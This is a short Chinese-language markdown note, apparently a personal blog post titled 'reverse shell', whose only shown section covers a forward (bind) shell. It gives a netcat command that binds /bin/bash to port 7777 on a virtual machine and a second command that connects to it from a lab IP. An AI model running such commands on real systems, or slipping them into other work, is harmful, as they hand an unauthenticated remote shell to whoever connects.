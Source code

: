 ```yaml
---
title: 反弹shell
date: 2019-03-11 19:59:30
categories: Linux 
tags: [sh脚本,Linux命令]
---
```


## 正向

先虚拟机再主机

```sh
nc -lvp 7777 -e /bin/bash
```

```sh
nc 192.168.93.135 7777
```

